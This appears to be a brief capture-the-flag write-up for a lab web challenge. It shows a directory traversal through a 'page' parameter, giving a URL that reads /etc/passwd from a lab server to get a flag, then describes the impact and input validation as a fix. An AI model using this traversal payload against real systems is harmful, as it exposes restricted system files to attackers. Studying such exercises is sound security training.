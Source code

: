 # Include

## Method 
We have discoverd that the server uses the linux system we can then try to find the etc/passwd by performing a ***directory traversal exploit***

[http://10.203.69.31/?page=../../../../../../../etc/passwd](http://10.203.69.31/?page=../../../../../../../etc/passwd "etc/passwd")

if we navigate to this page we then get the flag

## Issues
By performing this exploit a hacker can the read files that are restricted to users, the hacker can then read these files to get more information on how to futher exploit the site.


## Solution
1. The program must validate the user input before processing it, ***regular expression*** can be used to check for any unusual input from what is expected.